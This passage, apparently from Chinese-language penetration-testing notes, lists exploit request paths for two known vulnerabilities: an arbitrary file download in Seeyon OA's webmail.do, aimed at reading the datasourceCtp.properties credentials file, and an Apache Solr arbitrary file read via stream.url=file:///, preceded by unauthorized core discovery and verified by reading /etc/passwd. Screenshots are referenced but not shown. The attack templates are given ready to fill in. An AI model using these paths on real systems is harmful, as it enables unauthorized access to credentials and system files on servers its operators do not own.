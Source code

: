 ![88d61fc688b2f7d58d0c604ad225f85c.png](images/Image%20[49].png)

2. 致远OA_webmail.do任意文件下载：

   *  漏洞路径：/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath={payload}，测试读取datasourceCtp.properties文件

   *  如存在漏洞，则可使用文件读取exp

   *  示例：

![fba4d9098e69d5246dd6a06033eaae5c.png](images/Image%20[50].png)

3. Apache Solr 任意文件读取：

   *  漏洞路径：/solr/{core}/debug/dump?param=ContentStreams&stream.url=file:///{payload}，先通过未授权获取有效core，再尝试读取/etc/passwd进行验证
